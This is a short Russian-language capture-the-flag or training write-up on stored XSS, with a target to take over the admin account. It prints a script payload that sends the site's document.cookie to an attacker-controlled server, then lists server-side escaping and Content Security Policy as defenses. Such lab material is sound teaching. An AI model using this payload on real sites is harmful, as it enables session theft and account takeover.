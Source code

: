 # День второй (XSS)
-- -
### Цель атаки: 
получить доступ к пользователю admin на сайте 

### Решение:

Отправив `<img>` обнаруживаем наличие XSS уязвимости. Используем тег `<script>` чтобы выполнить вредоносный JS код у
пользователей, зашедших на сайт. В скрипте пишем отправку куки сайта на наш сервер. Ждем, когда на сайт заходит admin,
воруем куки, авторизуемся. Done

### Итоговый эксплоит:
```html
<script>
    let xhr = new XMLHttpRequest();
    xhr.open('POST', '<аддрес нашего сервера>', true)
    xhr.send(document.cookie)
</script>
```

### Интсрументы и полезные ссылки
- Потренироваться в написании скриптов можно тут https://jsfiddle.net/
- Спиоск всех html5 тегов можно найти тут http://htmlbook.ru/html
- Как отправлять http запросы из JavaScript-а можно найти тут https://learn.javascript.ru/xmlhttprequest
- Запросы можно отправлять сюда https://ptsv2.com/

### Способ защиты
- Экранировать весь пользовательский ввод на сервере через специальные общеиспользуемые форматеры.
- Content Security Policy https://developer.mozilla.org/ru/docs/Web/HTTP/CSP
